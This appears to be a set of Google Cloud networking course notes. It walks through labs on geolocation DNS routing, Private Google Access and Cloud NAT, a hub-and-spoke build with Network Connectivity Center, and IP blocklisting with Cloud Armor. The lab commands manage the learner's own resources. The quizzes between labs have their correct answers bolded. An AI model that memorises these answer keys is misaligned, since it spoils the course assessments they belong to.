Now perform the same test from the client VM in the US.

1. Use the `gcloud` command below to SSH into the us-client-vm:

```
gcloud compute ssh us-client-vm --zone "Zone 1" --tunnel-through-iap
```


1. Use the `curl` command to access `geo.example.com`:

```
for i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
```


1. Now analyze the output to see which server is responding to the request. The client should always receive a response from a server in the client's region. The expected output is "Page served from: `<filled at lab start>`".
2. Once you have run the test multiple times, exit the client VM in the US by typing "`exit`" in the VM's command prompt.

##### Testing from the client VM in Asia

So far you have tested the setup from the United States and Europe. You have servers running in both the regions and have matching record sets for both the regions in Cloud DNS routing policy. There is no matching policy item for the region within Asia (selected earlier) in the Cloud DNS routing policy.

The Geolocation policy will apply a "nearest" match for source location when the source of the traffic doesn't match any policy items exactly. This means that the Asia client should be directed to the nearest web server.

In this section, you will resolve the `geo.example.com` domain from the client VM in Asia and will analyze the response.

1. SSH into the asia-client-vm. For `<SELECTED-ZONE>`, use the zone that you used to create the Asia client.

```
gcloud compute ssh asia-client-vm --zone <SELECTED-ZONE> --tunnel-through-iap
```


1. Then access geo.example.com:

```
for i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
```


1. Analyze the output to see which server is responding to the request. Since there is no policy item for any of the Asia regions, Cloud DNS will direct the client to the nearest server.
2. Once you have run the test multiple times, exit the client VM in Asia by typing "`exit`" in the VM's command prompt.

#### Task 9. Delete lab resources

Although all resources you used in this lab will be deleted when you finish, it is good practice to remove resources you no longer need to avoid unnecessary charges.

- The following `gcloud` commands will delete all the resources that were created in the lab. (Note that `SELECTED-ZONE` is the Asia zone that you wrote down earlier.)

```
#delete VMS
gcloud compute instances delete -q us-client-vm --zone "ZONE"

gcloud compute instances delete -q us-web-vm --zone "ZONE"

gcloud compute instances delete -q europe-client-vm --zone "Zone 2"

gcloud compute instances delete -q europe-web-vm --zone "Zone 2"

gcloud compute instances delete -q asia-client-vm --zone SELECTED-ZONE

#delete FW rules
gcloud compute firewall-rules delete -q allow-http-traffic

gcloud compute firewall-rules delete fw-default-iapproxy

#delete record set
gcloud dns record-sets delete geo.example.com --type=A --zone=example

#delete private zone
gcloud dns managed-zones delete example
```


#### Congratulations

In this lab, you configured and used Cloud DNS routing policies with Geolocation routing policy. You also verified the configuration and behavior of the Cloud DNS routing policy by observing the HTTP response when accessing the web servers.

### Quiz

1. To set up hybrid deployments for DNS resolution, which type of DNS policy should you use?
- **Server policy**
- Response policy
- Traffic policy
- Routing policy

2. You must create a VM that has an IPv6 address. How do you do it?
- Create a single-stack subnet, and create the VM with an IPv6 address.
- Create a single-stack subnet with IPv6 enabled, and then create the VM with an IPv4 address.
- **Create a dual-stack subnet, and create the VM with an IPv6 address.**
- Create a single-stack network, and create the VM with an IPv6 address.

## Private Connection Options

### LAB - Implement Private Google Access and Cloud NAT

Overview

In this lab, you implement Private Google Access and Cloud NAT for a VM instance that doesn't have an external IP address. Then, you verify access to public IP addresses of Google APIs and services and other connections to the internet.

VM instances without external IP addresses are isolated from external networks. Using Cloud NAT, these instances can access the internet for updates and patches, and in some cases, for bootstrapping. As a managed service, Cloud NAT provides high availability without user management and intervention.

Objectives

In this lab, you learn how to perform the following tasks:

- Configure a VM instance that doesn't have an external IP address

- Connect to a VM instance using an Identity-Aware Proxy (IAP) tunnel

- Enable Private Google Access on a subnet

- Configure a Cloud NAT gateway

- Verify access to public IP addresses of Google APIs and services and other connections to the internet


For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.

2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.

3. When ready, click **Start lab**.

4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.

5. Click **Open Google Console**.

6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.

7. Accept the terms and skip the recovery resource page.

   **Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Create the VM instance

Create a VPC network with some firewall rules and a VM instance that has no external IP address, and connect to the instance using an IAP tunnel.

Create a VPC network and firewall rules

First, create a VPC network for the VM instance and a firewall rule to allow SSH access.

1. In the Cloud Console, on the **Navigation menu** (), click **VPC network > VPC networks**.

2. Click **Create VPC Network**.

3. For **Name**, type **privatenet**.

4. For **Subnet creation mode**, click **Custom**.

5. In **New Subnet** specify the following, and leave the remaining settings as their defaults:

    | Property           | Value (type value or select option as specified) |
    | :----------------- | :----------------------------------------------- |
    | Name               | privatenet-us                                    |
    | Region             | `REGION`                                         |
    | IPv4 address range | 10.130.0.0/20                                    |

    **Note:** Don't enable **Private Google access** yet!

    

6. Click **Done**.

7. Click **Create** and wait for the network to be created.

8. In the left pane, click **Firewall**.

9. Click **Create Firewall Rule**.

10. Specify the following, and leave the remaining settings as their defaults:

    | Property            | Value (type value or select option as specified) |
    | :------------------ | :----------------------------------------------- |
    | Name                | privatenet-allow-ssh                             |
    | Network             | privatenet                                       |
    | Targets             | All instances in the network                     |
    | Source filter       | IPv4 ranges                                      |
    | Source IPv4 ranges  | 35.235.240.0/20                                  |
    | Protocols and ports | Specified protocols and ports                    |

11. For **tcp**, click the checkbox and specify port **22**.

12. Click **Create**.

     **Note:** In order to connect to your private instance using SSH, you need to open an appropriate port on the firewall. [IAP connections](https://cloud.google.com/iap/docs/using-tcp-forwarding) come from a specific set of IP addresses (**35.235.240.0/20**). Therefore, you can limit the rule to this CIDR range.

     Create the VM instance with no public IP address

     

1. In the Cloud Console, on the **Navigation menu** (), click **Compute Engine > VM instances**.

2. Click **Create Instance**.

3. On the **Machine configuration** page, specify the following, and leave the remaining settings as their defaults:

 | Property     | Value (type value or select option as specified) |
 | :----------- | :----------------------------------------------- |
 | Name         | vm-internal                                      |
 | Region       | `REGION`                                         |
 | Zone         | `ZONE`                                           |
 | Series       | E2                                               |
 | Machine type | e2-medium (2vCPU, 1 core, 4 GB memory)           |

4. Click **OS and storage**.

5. If the **Image** shown is not **Debian GNU/Linux 12 (bookworm)**, click **Change** and select **Debian GNU/Linux 12 (bookworm)**, and then click **Select**.

6. Click **Networking**.

7. In **Network interfaces**, edit the network interface by specifying the following:

 | Property              | Value (type value or select option as specified) |
 | :-------------------- | :----------------------------------------------- |
 | Network               | privatenet                                       |
 | Subnetwork            | privatenet-us                                    |
 | External IPv4 address | None                                             |

**Note:** The default setting for a VM instance is to have an ephemeral external IP address. This behavior can be changed with a policy constraint at the organization or project level. To learn more about controlling external IP addresses on VM instances, refer to the [external IP address documentation](https://cloud.google.com/compute/docs/ip-addresses/reserve-static-external-ip-address#disableexternalip).


8. Click **Done**.

9. Click **Create**, and wait for the VM instance to be created.

10. On the **VM instances** page, verify that the **External IP** of **vm-internal** is **None**.

Click **Check my progress** to verify the objective.

Create the VM instance


SSH to vm-internal to test the IAP tunnel

1. In the Cloud Console, click **Activate Cloud Shell** ().

2. If prompted, click **Continue**.

3. To connect to **vm-internal**, run the following command:

   

```
gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

4. If prompted click **Authorize**

5. If prompted to continue, type **Y**.

6. When prompted for a passphrase, press **ENTER**.

7. When prompted for the same passphrase, press **ENTER**.

Did the command prompt change to @vm-internal? 

- True
- False

8. To test the external connectivity of **vm-internal**, run the following command:

``` 
ping -c 2 www.google.com
```

This should not work because **vm-internal** has no external IP address!

9. Wait for the `ping` command to complete.

10. To return to your Cloud Shell instance, run the following command:

```
 exit
```

**Note:** When instances do not have external IP addresses, they can only be reached by other instances on the network via a managed VPN gateway or via a Cloud IAP tunnel. Cloud IAP enables context-aware access to VMs via SSH and RDP without bastion hosts. To learn more about this, see the blog post [Cloud IAP enables context-aware access to VMs via SSH and RDP without bastion hosts](https://cloud.google.com/blog/products/identity-security/cloud-iap-enables-context-aware-access-to-vms-via-ssh-and-rdp-without-bastion-hosts).

#### Task 2. Enable Private Google Access

VM instances that have no external IP addresses can use Private Google Access to reach external IP addresses of Google APIs and services. By default, Private Google Access is disabled on a VPC network.

Create a Cloud Storage bucket

Create a Cloud Storage bucket to test access to Google APIs and services.

1. In the Cloud Console, on the **Navigation menu** (), click **Cloud Storage > Buckets**.

2. Click **Create**.

3. Specify the following, and leave the remaining settings as their defaults:

 | Property      | Value (type value or select option as specified) |
 | :------------ | :----------------------------------------------- |
 | Name          | *Enter a globally unique name*                   |
 | Location type | Multi-region                                     |

4. Click **Create**. If prompted to enable public access prevention, ensure it is checked and cick **Confirm**. Note the name of your storage bucket.

5. Store the name of your bucket in an environment variable:

```
 export MY_BUCKET=[enter your bucket name here]
```

6. Verify it with echo:

```
 echo $MY_BUCKET
```

Copy an image file into your bucket

Copy an image from a public Cloud Storage bucket to your own bucket.


1. In Cloud Shell, run the following command:

```
 gcloud storage cp gs://cloud-training/gcpnet/private/access.svg gs://$MY_BUCKET
```

2. In the Cloud Console, click your bucket name to verify that the image was copied.

You can click on the name of the image in the Cloud Console to view an example of how Private Google Access is implemented.

Access the image from your VM instance

Currently, which of your VM instances can access the image from your bucket?

- vm-internal

- Cloud Shell


1. In Cloud Shell, to try to copy the image from your bucket, run the following command:

```
 gcloud storage cp gs://$MY_BUCKET/*.svg .
```

This should work because Cloud Shell has an external IP address!

2. To connect to **vm-internal**, run the following command:

```
 gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

3. If prompted, type **Y** to continue.

4. Store the name of your bucket in an environment variable:

```
 export MY_BUCKET=[enter your bucket name here]
```

5. Verify it with echo:

```
 echo $MY_BUCKET
```

6. Try to copy the image to **vm-internal**, run the following command:

```
 gcloud storage cp gs://$MY_BUCKET/*.svg .
```

This should not work: **vm-internal** can only send traffic within the VPC network because Private Google Access is disabled (by default).

7. Press **Ctrl+Z** to stop the request.


Enable Private Google Access

Private Google Access is enabled at the subnet level. When it is enabled, instances in the subnet that only have private IP addresses can send traffic to Google APIs and services through the default route (0.0.0.0/0) with a next hop to the default internet gateway.

1. In the Cloud Console, on the **Navigation menu** (), click **VPC network > VPC networks**.

2. Click **privatenet** to open the network.

3. Click **Subnets**, and then click **privatenet-us**.

4. Click **Edit**.

5. For **Private Google access**, select **On**.

6. Click **Save**.

Click **Check my progress** to verify the objective.

Create a Cloud Storage bucket and Enable Private Google Access

**Note:** Enabling Private Google Access is as simple as selecting **On** within the subnet!

7. Run the following command, in **Cloud Shell** for **vm-internal**, to try to copy the image to **vm-internal**.

```
 gcloud storage cp gs://$MY_BUCKET/*.svg .
```

This should work because **vm-internal**'s subnet has **Private Google Access** enabled!

8. To return to your Cloud Shell instance, run the following command:

```
 exit
```

9. Again type exit if needed to return to your Cloud Shell instance.

```
 exit
```

**Note:** To view the eligible APIs and services that you can use with Private Google Access, see supported services in the [Private access options for services Guide](https://cloud.google.com/vpc/docs/private-access-options#pga-supported).


#### Task 3. Configure a Cloud NAT gateway

Although **vm-internal** can now access certain Google APIs and services without an external IP address, the instance cannot access the internet for updates and patches. Configure a Cloud NAT gateway, which allows **vm-internal** to reach the internet.

Try to update the VM instances

1. In **Cloud Shell**, to try to re-synchronize the package index, run the following:

```
 sudo apt-get update
```

The output should finish like this (**example output**):

```
 ...
 Reading package lists... Done
```

This should work because **Cloud Shell** has an external IP address!

2. To connect to **vm-internal**, run the following command:

```
 gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

3. If prompted, type **Y** to continue.

4. To try to re-synchronize the package index of **vm-internal**, run the following command:

```
 sudo apt-get update
```

This should only work for Google Cloud packages because **vm-internal** only has access to Google APIs and services!

5. Press **Ctrl+C** to stop the request.

Configure a Cloud NAT gateway

Cloud NAT is a regional resource. You can configure it to allow traffic from all ranges of all subnets in a region, from specific subnets in the region only, or from specific primary and secondary CIDR ranges only.


1. On the Google Cloud console title bar, type **Network services** in the **Search**field, then click **Network services** in the **Products & Page** section.

2. On the **Network service** page, click **Pin** next to Network services.

3. Click **Cloud NAT**.

4. Click **Get started** to configure a NAT gateway.

5. Specify the following:

 | Property     | Value (type value or select option as specified) |
 | :----------- | :----------------------------------------------- |
 | Gateway name | nat-config                                       |
 | Network      | privatenet                                       |
 | Region       | `REGION`                                         |

6. For **Cloud Router**, select **Create new router**.

7. For **Name**, type **nat-router**

8. Click **Create**.

**Note:** The NAT mapping section allows you to choose the subnets to map to the NAT gateway. You can also manually assign static IP addresses that should be used when performing NAT. Do not change the NAT mapping configuration in this lab.

9. Click **Create**.

10. Wait for the gateway's status to change to **Running**.

Click **Check my progress** to verify the objective.

Configure a Cloud NAT gateway


Verify the Cloud NAT gateway

It may take up to 3 minutes for the NAT configuration to propagate to the VM, so wait at least a minute before trying to access the internet again.


1. In **Cloud Shell** for **vm-internal**, to try to re-synchronize the package index of **vm-internal**, run the following command:

```
 sudo apt-get update
```

The output should finish like this (**example output**):

```
 ...
 Reading package lists... Done
```

This should work because **vm-internal** is using the NAT gateway!

2. To return to your Cloud Shell instance, run the following command:

```
 exit
```

**Note:** The Cloud NAT gateway implements outbound NAT, but not inbound NAT. In other words, hosts outside of your VPC network can only respond to connections initiated by your instances; they cannot initiate their own, new connections to your instances via NAT.

#### Task 4. Configure and view logs with Cloud NAT Logging

Cloud NAT logging](https://cloud.google.com/nat/docs/monitoring) allows you to log NAT connections and errors. When Cloud NAT logging is enabled, one log entry can be generated for each of the following scenarios:

- When a network connection using NAT is created.

- When a packet is dropped because no port was available for NAT.

You can opt to log both kinds of events, or just one or the other. Created logs are sent to Cloud Logging.

Enabling logging

If logging is enabled, all collected logs are sent to Cloud Logging by default. You can filter these so that only certain logs are sent.

You can also specify these values when you create a NAT gateway or by editing one after it has been created. The following directions show how to enable logging for an existing NAT gateway.


1. In the Google Cloud Console, on the **Navigation menu** (), click **Network services** > **Cloud NAT**.

2. Click on the `nat-config` gateway and then click **Edit**.

3. Click the **Advanced configurations** dropdown to open that section.

4. For **Logging**, select **Translation and errors** and then click **Save**.


NAT logging in Cloud Logging

Now that you have set up Cloud NAT logging for the `nat-config` gateway, let's find out where we can view our logs.


1. Click on `nat-config` to expose its details. Then click on the **View in Logs Explorer**.

2. This will open a new tab with **Logs Explorer**.

You will see that there aren't any logs yet—that's because we just enabled this feature for the gateway.

**Note:** Keep this tab open and return to your other Google Cloud Console tab.


Generating logs

As a reminder, Cloud NAT logs are generated for the following sequences:

- When a network connection using NAT is created.

- When a packet is dropped because no port was available for NAT.

Let's connect the host to the internal VM again to see if any logs are generated.


1. In **Cloud Shell** for **vm-internal**, to try to re-synchronize the package index of **vm-internal**, run the following command:

```
 gcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
```

2. If prompted, type **Y** to continue.

3. Try to re-synchronize the package index of **vm-internal** by running the following:

```
 sudo apt-get update
```

The output should look like this (**example output**):

```
 ...
 Reading package lists... Done
```


4. To return to your Cloud Shell instance, run the following command:

```
 exit
```

Let's see if opening up this connection revealed anything new in our logs.


Viewing Logs


- Return to your Logs Explorer tab, and in the navigation menu, click **Logs Explorer**.

You should see two new logs that were generated after connecting to the internal VM.

**Note:** You may need to wait for a few minutes. If you are still unable to see the logs, repeat step 1 to step 4, from the **Generating logs** section, and then refresh the logging page. 

As we see, the logs give us details on the VPC network we connected to and the connection method we used. Feel free to expand different labels and details.


Task 5. Review

You created **vm-internal**, an instance with no external IP address, and connected to it securely using an IAP tunnel. Then you enabled Private Google Access, configured a NAT gateway, and verified that **vm-internal** can access Google APIs and services and other public IP addresses.

VM instances without external IP addresses are isolated from external networks. Using Cloud NAT, these instances can access the internet for updates and patches, and in some cases, for bootstrapping. As a managed service, Cloud NAT provides high availability without user management and intervention.

IAP uses your existing project roles and permissions when you connect to VM instances. By default, instance owners are the only users that have the **IAP Secured Tunnel User**role.

For how to allow other users to access your VMs using IAP tunneling, see, in the Cloud Architecture Center, [Grant access to additional users Guide](https://cloud.google.com/solutions/building-internet-connectivity-for-private-vms#grant_access_to_additional_users).


End your lab

When you have completed your lab, click **End Lab**. Google Cloud Skills Boost removes the resources you’ve used and cleans the account for you.

### Quiz

1. You want to provide access to services that you created in a VPC network. The services should be available to other specified VPC networks through endpoints that have internal IP addresses. Some of these VPC networks have subnets with overlapping internal IP addresses. Which product can you use?
- Private services access
- Private Google Access
- **Private Service Connect**
- Cloud NAT

2. To enable Private Google Access for a VPC network:
- Enable it on the VPC network.
- Enable it on the VPC network, on the desired subnets, and on Cloud Router.
- Enable it on all desired subnets and on Cloud Router.
- **Enable it on all desired subnets in the VPC network.**

3. Private services access automatically configures which Google Cloud product to implement communication between the producer and consumer VPC networks?
- **VPC Network Peering**
- Cloud NAT
- Private Google Access
- Shared VPC

## 

# 05 Networking in Google Cloud: Network Architecture

## Introduction to Network Architecture

### Quiz

1. You are designing a new network infrastructure in Google Cloud to support a global e-commerce application. Which two of the following are key considerations you should prioritize in your network design?

- To justify the need for a new network.

- To create a detailed project timeline.

- **To inform and guide design choices, ensuring the network aligns with organizational goals and constraints.**

- **To ensure high availability and disaster recovery capabilities for the network.**

2. Which of the following practices is LEAST likely to improve network security in Google Cloud?
- Regularly reviewing and updating IAM (Identity and Access Management) permissions.
- Enabling VPC flow logs to monitor network traffic.
- Implementing network firewall rules to control traffic.
- **Assigning public IP addresses to all virtual machines in a VPC.**


## Network Topologies

### LAB - Implementing a Hub and Spoke using NCC

#### Overview

In this lab, you design and implement a classic hub-and-spoke network topology. Your pre-configured environment includes three VPC networks—a central hub and two branches (spoke1 and spoke2). You will create virtual machines (VMs) on each network to test connectivity.

You begin by verifying connectivity between the VMs within and across VPCs. Then, you use NCC to implement a hub and spoke. You retest connectivity to confirm that your hub-and-spoke architecture is fully functional.

#### Objectives

In this lab, you learn how to perform the following tasks:

- Configure VMs in different VPCs.
- Test connectivity between networks before implementing a hub and spoke.
- Use NCC to create a hub and spoke.
- Test connectivity after implementing a hub and spoke.
- Use Network Topology to view metrics for traffic between entities.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Explore the pre-configured network

The network **hub-vpc** with **hub-subnet**, **spoke1-vpc** with **spoke1-subnet**, and **spoke2-vpc** with **spoke2-subnet** along with firewall rules for **RDP**, **SSH**, and **ICMP**traffic have been configured for you.

- In the Google Cloud console, on the **Navigation menu** (), click **VPC network > VPC networks**.
  Notice the **hub-vpc**, **spoke1-vpc**, and **spoke2-vpc** network with its subnets: **hub-subnet**, **spoke1-subnet**, and **spoke2-subnet**.

  Each Google Cloud project starts with the **default** network. In addition, the **hub-vpc**, **spoke1-vpc**, and **spoke2-vpc** network has been created for you as part of your network diagram.

  You create a VM in **hub-subnet**, **spoke1-subnet**, and **spoke2-subnet**.

#### Explore the firewall rules

1. On the **Navigation menu** (), click **VPC network > Firewall**.
   Notice the **app-allow-icmp** and **app-allow-ssh-rdp** firewall rules.

   These firewall rules have been created for you.

#### Task 2. Create a VM in each VPC

1. On the **Navigation menu**, click **Compute Engine > VM instances**.
2. Click **Create Instance**.
3. Specify **Name** as **hub-vm**.
4. In the left frame, click **Networking**.
5. Under **Network interfaces** , click **default**. From the **Network** dropdown select **hub-vpc**.
6. Click **Create**.

Repeat the process to create a **spoke1-vm** VM in `spoke1-vpc` and a **spoke2-vm** VM in `spoke2-vpc`.

Click **Check my progress** to verify the objective.

Create a VM in each VPC


#### Task 3: Test connectivity

spoke1-vm and spoke2-vm are in two different VPCs. Let us test the connectivity between the two.

1. On the **VM instances** page, for **spoke1-vm**, copy the internal IP address.
2. On the **VM instances** page, for **spoke2-vm**, click **SSH**.
3. Run the following command:

```
ping <internal IP address of spoke1-vm>
```


Notice how the ping fails. This should execute and display 100% packet loss. Press **Ctrl+C** to stop the command.

1. Now, SSH into **spoke1-vm** to test the connectivity from **spoke1-vm** to **spoke2-vm**:

```
ping <internal IP address of spoke2-vm>
```


Notice how the ping fails. This should execute and display 100% packet loss. Press **Ctrl+C** to stop the command.

#### Task 4: Create a hub and spoke using NCC

Network Connectivity Center lets you create VPC spokes to connect VPC networks together for full mesh connectivity.

1. On the Google Cloud console title bar, type **Network Connectivity Center** in the Search field, then click **Network Connectivity Center** in the **Products & Page**section.
2. Click **Create hub**.
3. Enter **my-hub** for **Hub Name**.
4. Click **Next step**.
5. Click **Add a spoke**.
6. Enter **spoke1** for first **Spoke Name**.
7. Select **VPC network** as the Spoke type.
8. To add a VPC network to the spoke, select **spoke1-vpc**.
9. Click Done.
10. Click **Add a spoke** to add a second spoke,
11. Enter **spoke2** for second **Spoke Name**.
12. Select VPC network as the Spoke type.
13. Choose **spoke2-vpc** as the VPC network for this spoke.
14. Click Done.
15. When you have finished adding spokes, click **Create**.

Click **Check my progress** to verify the objective.

Create a hub and spoke using NCC


#### Task 5. Retest connectivity

VPC spokes reduce the operational complexity of managing the individual pair-wise VPC Network Peering connections through the use of VPC spokes and a centralized connectivity management model. Now you retest the connectivity between the VMs from spokes.

This task has been performed for you at the start of this lab. You will need to SSH into VM and run the following command to setup the environment.

1. On the **Navigation** menu, click **Compute Engine > VM instances**.
2. Select the SSH button next to **spoke1-vm** to SSH into the VM.
3. If prompted "Allow SSH-in-browser to connect to VMs," click **Authorize**.
4. Run the following command:

```
ping -c 3 <internal IP address of spoke2-vm>
```


1. Repeat the previous steps for **spoke2-vm**.

#### Task 6. Explore the Network Topology Tool

Network Topology is a visualization tool that shows the topology of your network infrastructure. You can also view metrics and details of network traffic to other Shared VPC networks and inter-region traffic.

For each Network Topology hierarchy, the Google Cloud console displays a single metric for Compute Engine virtual machine (VM) instance entities and region entities, as well as for connections.

1. In the Google Cloud console, go to the Network Topology page.
2. Hover over an entity to display the **Expand** icon for expanding or **Collapse** icon for collapsing.
3. In the Metrics and insights section, select an insight from the options.

#### Congratulations!

In this lab, you implemented a classic hub-and-spoke network topology. You created virtual machines (VMs) on each network to test connectivity.

You started by verifying connectivity between the VMs within and across VPCs. Then, you used NCC to implement a hub and spoke. You retested connectivity to confirm that the hub-and-spoke architecture was fully functional.


### Quiz

1. You are designing a Google Cloud network for a large financial services company with strict security requirements. The network needs to isolate sensitive customer data from other resources and limit communication between specific network segments. Which of the following network topologies would be most suitable for this scenario?
- Hub-and-spoke
- Mesh
- Mirrored
- **Gated ingress and egress**

Correct! This topology allows granular control over incoming and  outgoing traffic, enabling isolation of sensitive data and restriction  of unauthorized communication between segments.

2. You are migrating a large ecommerce company's existing on-premises data center to Google Cloud. The on-premises network consists of geographically dispersed regional offices, each with its own network segment requiring secure isolation. However, central management and communication between all regional offices are critical for business operations. Which network topology would most effectively address these requirements in Google Cloud?
- Mesh
- Mirrored
- Gated ingress and egress
- **Hub-and-spoke**

Correct! This topology establishes a central VPC (the "hub") in Google  Cloud, connecting all regional VPCs ("spokes") securely. This  configuration facilitates centralized management, enforces security  policies, and provides a cost-effective and manageable solution for  migrating the on-premises network while maintaining regional isolation  and communication.


## 

# 06 Networking in Google Cloud: Network Security


## Distributed Denial of Service (DDoS) Protection


### LAB - Configuring Traffic Blocklisting with Google Cloud Armor


#### Overview

HTTP(S) Load balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.

[Google Cloud Armor](https://cloud.google.com/armor) IP blocklists/allowlists enable you to restrict or allow access to your HTTP(S) load balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your virtual private cloud (VPC) networks.

In this lab, you will verify that the HTTP load balancer with global backends is deployed. This load balancer is automatically provisioned for you during startup. You will then create a VM to test access to the load balancer. Finally, you will stress test the load balancer and blocklist the stress test IP with Google Cloud Armor.

#### Objectives

In this lab, you will learn how to perform the following tasks:

- Verify that the HTTP load balancer is deployed.
- Create a VM to test access to the HTTP load balancer.
- Use Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Verify the HTTP load balancer is deployed

In this task, you verify that the global HTTP load balancer is deployed. The HTTP load balancer is automatically created when you start the lab. This will be used for a simple web application. This application is deployed to demonstrate the capabilities of Google Cloud Armor.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
2. Verify that the load balancer is deployed and registered by executing the following command:

```
gcloud compute backend-services get-health web-backend --global
```


**Note:** Rerun this command and wait until this command returns that three instances are HEALTHY. You can also monitor it in the console (**Navigation menu > View All Products > Network services > Load balancing**).

1. Retrieve the load balancer IP address by executing the following command:

```
gcloud compute forwarding-rules describe web-rule --global
```


1. Copy the value for the **IPAddress** property.

Keep track of this IP address. It will also be used in a later section.

1. Open a new browser tab and try to visit that IP address `http://{IP_ADDRESS}`.

Replace `{IP_ADDRESS}` with the IP address of the load balancer. Do not include the curly braces when you are asked to provide the IP address.

If you get a message that the IP address doesn't support a secure connection, click **Continue to site**.

Keep refreshing the page until you see a page with a message similar to this:


**Note:** It might take a couple of minutes to access the HTTP load balancer. In the meantime, you might get 404 or 502 errors. Keep trying until you see the page of one of the backends.

1. In Cloud shell, use the following `curl` command to access the IP address:

```
while true; do curl -m1 {IP_ADDRESS}; done
```


The responses will be from backends that have been created in different zones.

1. Press **CTRL+C** to stop the previous command.

#### Task 2. Create a VM to test access to the load balancer

1. Go to **Navigation menu > Compute Engine**.

2. Click **Create Instance**.

3. On the **Machine configuration** page, enter the following values:

   | **Field** | **Value** (type or select) |
   | :-------- | :------------------------- |
   | Name      | access-test                |
   | Region    | `REGION`                   |
   | Zone      | `ZONE`                     |

4. Leave everything else at the default and click **Create**.

5. Once launched, click the **SSH** button to connect to the instance.

6. Run the following command on the instance to access the load balancer:

```
curl -m1 {IP_ADDRESS}
```


The output should look similar to:

```
<!doctype html><html><body><h1>Web server</h1><h2>This server is in zone: projects/104716457480/zones/ZONE</h2> </body></html>
```

Click *Check my progress* to verify the objective.

Create a VM to test access to the load balancer.


#### Task 3. Create a security policy with Google Cloud Armor

#### Blocklist the access-test VM

**Note:** You will now create a security policy to blocklist access to the load balancer from the access-test VM. This policy can be used to block access from a malicious client. There are ways to identify the external IP address of a client trying to access your HTTP load balancer. For example, you could examine traffic captured by VPC Flow Logs in BigQuery to determine a high volume of incoming requests.

1. Go to **Navigation menu > Compute engine**, click **access-test** VM and scroll down to **Network interface** and then copy the **External IP address**.
2. From the **Navigation menu** > **View All Products**. Go to **Networking** section, click **Network Security** > **Cloud Armor policies**.
3. Click **Create policy**.
4. Provide a name as **blocklist-access-test** and set the **Default rule action** to **Allow**.
5. Click **Next step**.
6. Click **Add rule**.
7. Set the following values, leave all other values at their defaults:

| **Property**  | **Value**                                       |
| ------------- | ----------------------------------------------- |
| Mode          | Basic mode (IP addresses/ranges only)           |
| Match         | Enter the External IP of the **access-test** VM |
| Action        | Deny                                            |
| Response code | 404 (Not Found)                                 |
| Priority      | 1000                                            |

**Note:** Notice that you are setting the Deny status to 404.

1. Click **SAVE CHANGE TO RULE**.
2. Click **Next step**.
3. Click **+ Add Target**.
4. For **Type 1**, select **Backend service (external application load balancer)**.
5. For **Backend Service target 1**, select **web-backend**.
6. Click **Next step**.
7. Click **Done**.
8. Click **Create policy**.

**Note:** Alternatively, you could set the default rule to Deny and only allow list traffic from authorized users/IP addresses.

Wait for the policy to be created before moving to the next step.

#### Verify the security policy

1. Return to the SSH session of the access-test VM.
2. Run the `curl` command again on the instance to access the load balancer:

```
curl -m1 {IP_ADDRESS}
```


The output should look as follows.

**Output:**

```
<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>404</title>404 Not Found
```

**Note:** It might take a couple of minutes for the security policy to take affect. If you are able to access the backends, keep trying until you get the **404** Not Found error.

1. Try accessing the load balancer IP from your local browser. You should still be able to access it as we have only blocklisted the access-test VM.

Click *Check my progress* to verify the objective.

Create a security policy with Google Cloud Armor.


#### Task 4. View Google Cloud Armor logs

1. In the Console, from the **Navigation menu** > **View All Products**. Go to **Networking** section, click **Network Security** > **Cloud Armor policies**.
2. Click **blocklist-access-test**.
3. Click **Logs**.
4. Click **View policy logs** and go to the latest logs. If prompted, close the notification.
5. Locate a log with a **404** and expand the log entry.
6. Expand **httpRequest**.
7. The request should be from the **access-test** VM IP address.
8. Explore some of the other log entries.

#### Congratulations!

In this lab, you have done the following:

- Verified that the HTTP load balancer was deployed.
- Created a VM to test access to the HTTP load balancer.
- Used Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.


### Quiz

1. Which Google Cloud service provides defense against infrastructure and application Distributed Denial of Service (DDoS) attacks?

- Cloud CDN

- Cloud DNS

- Cloud Load Balancing

